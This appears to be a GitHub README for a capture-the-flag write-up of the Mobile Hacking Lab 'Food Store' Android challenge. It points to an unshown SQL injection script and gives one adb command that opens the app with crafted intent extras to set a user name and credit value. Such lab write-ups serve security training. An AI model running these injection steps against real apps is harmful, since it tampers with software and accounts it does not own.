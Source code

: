 # Writeup for Guess me challenge.

>here's how to use the scripts only as proof of concept.

Check the full Writeup at my blog --> [Food Store](https://blog.parad0x.vip/blog/2024/08/15/FoodStore.html)
---

## Objective
Exploit the SQL Injection vulnerability, allowing you to register as a Pro user, bypassing standard user restrictions.

## SQL injection

Just run:`./exploit.sh`
Make sure that the android device is connected and the adb is running.

<img width="335" alt="MHL_foodStore_4" src="https://github.com/user-attachments/assets/0b49e2bd-00a5-4447-8caf-d4cac449f93f">


## BONUS INTENT EXPLOIT
The following command will open the app and by sending a crafted deep link

```sh
adb shell am start \
-n com.mobilehackinglab.foodstore/.MainActivity \
--es USERNAME "parad0x" \
--ei USER_CREDIT "1337"
```

<img width="762" alt="MHL_foodStore_5" src="https://github.com/user-attachments/assets/823411e3-2a23-45c8-93e4-4cc3c0265f6d">


## Conclusion

On my blog, I'll cover all the steps, how it's possible to change the value on the screen and exploit a SQLi.
